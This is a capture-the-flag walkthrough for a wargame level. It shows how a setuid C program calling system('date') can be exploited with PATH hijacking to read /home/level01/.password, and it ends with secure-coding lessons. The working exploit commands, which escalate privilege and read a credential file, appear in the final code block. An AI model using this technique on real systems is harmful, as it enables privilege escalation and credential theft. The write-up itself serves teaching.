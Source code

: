 ## Level 1: don't use the system function in C

When the live CD starts,
you are automatically logged in as user `level00`.
The "message of the day" says:

> In /home/level01/.password is the password of the level01 user.
> Your mission, should you choose to accept it, is to read that
> file and login as level01 to advance to the next level.
> You may find the files in /levels/level01 useful.

All the levels on this CD work roughly the same way:

- The password of each `levelXX` user is stored in a file named `.password` in their home directory.

- The user home directories are well protected:
  only their owners have access (`0700` mode)

- The vulnerable programs and their source code are stored in the `/levels/levelXX` directories.

- The explanation of the level is shown when you login,
  it saved in the file `motd.txt` in the user's home directory.

- The explanation of the level always contains a hint to beat the challange, so it's good to read it carefully.

Let's get started!
Taking the hint from the explanation of the level,
look at the files in the `/levels/level01` directory:

    level00@box:~$ ls -l /levels/level01
    total 32
    -rw-rw-r--  1 level01  level01    69 Mar  9 19:08 Makefile
    -rwsr-xr-x  1 level01  level01  7352 Mar  9 19:08 level01
    -rw-rw-r--  1 level01  level01   152 Mar  9 19:08 level01.c

Notice the user permission `rws` on the file `level01`.
The setuid bit is set,
so when we run this program,
it will have the access permissions of `level01`,
the owner of the file,
instead of our current user.
Let's run it to see what it does:
```
level00@box:~$ /levels/level01/level01
Current time: Tue Sep  3 23:55:54 UTC 2013
```

It simply prints the current date and time.
Let's see how this is implemented in the source code:
```
printf("Current time: ");
fflush(stdout);
system("date");
return 0;
```

Instead of using a native C function to get the date,
the program calls the `system` function to run the `date` command.
We can find how `system` works in `man system`:
it executes the given string by calling `/bin/sh -c`.

Consider how the shell executes a command that is not an absolute path:
for each directory defined in `PATH`,
it checks if there is an executable file,
and it runs the first match.
We can easily exploit this by creating our own script named `date`,
prepend its base directory to `PATH`,
and make it print `/home/level01/.password`.
Here we go:

```
level00@box:~$ echo '#!/bin/cat /home/level01/.password' > /tmp/date
level00@box:~$ chmod +x /tmp/date 
level00@box:~$ PATH=/tmp /levels/level01/level01
Current time: aepeefoo
#!/bin/cat /home/level01/.password
```

Bingo! Now we can login as `level01` using the revealed password.

### Lessons to learn

- Read well the documentation, especially the warnings about usage:
  `man system` warns that it should not be used in setuid programs.

- Don't use the `system` function.
  Or if you must, at least use it only with absolute paths.

- Beware of environment variables that users can manipulate to alter the behavior of your programs.

- Beware of setuid programs.

